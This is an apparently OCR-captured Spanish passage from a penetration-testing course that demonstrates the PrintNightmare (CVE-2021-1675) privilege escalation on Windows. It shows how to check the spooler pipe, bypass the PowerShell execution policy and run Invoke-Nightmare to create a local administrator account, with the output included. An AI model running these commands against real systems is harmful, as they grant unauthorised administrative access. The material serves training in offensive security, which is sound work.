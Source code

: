 #### Comprobando el servicio de carreras

Podemos verificar rápidamente si el servicio Spooler se está ejecutando con el siguiente comando. Si no se está ejecutando, recibiremos un error de "ruta no existe".

  Exploits de núcleo

```powershell-session
PS C:\htb> ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

#### Agregar administrador local con printnightmare powershell poc

Primero comienzo por[omitir](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)la política de ejecución en el host de destino:

  Exploits de núcleo

```powershell-session
PS C:\htb> Set-ExecutionPolicy Bypass -Scope Process

Execution Policy Change
The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
https:/go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): A
```

Ahora podemos importar el script PowerShell y usarlo para agregar un nuevo usuario de administración local.

  Exploits de núcleo

```powershell-session
PS C:\htb> Import-Module .\CVE-2021-1675.ps1
PS C:\htb> Invoke-Nightmare -NewUser "hacker" -NewPassword "Pwnd1234!" -DriverName "PrintIt"

[+] created payload at C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_am
d64_ce3301b66255a0fb\Amd64\mxdwdrv.dll"
[+] added user hacker as local administrator
[+] deleting payload from C:\Users\htb-student\AppData\Local\Temp\nightmare.dll
```

#### Confirmando un nuevo usuario administrativo
